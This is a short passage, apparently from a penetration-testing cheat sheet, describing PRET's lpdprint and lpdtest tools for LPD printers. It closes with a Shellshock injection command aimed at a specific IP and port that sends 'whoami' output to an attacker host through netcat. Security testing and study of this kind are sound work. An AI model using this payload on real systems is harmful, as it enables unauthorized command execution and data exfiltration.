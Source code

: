 ## Tools for Interacting with LPD Printers

PRET introduces two essential tools, lpdprint and lpdtest, offering a straightforward method to interact with LPD-compatible printers. These tools enable a range of actions from printing data to manipulating files on the printer, such as downloading, uploading, or deleting

## Shellshock

python3 lpdtest.py 94.237.49.212 --port 44661 in '() {:;}; echo `whoami` | nc ip port'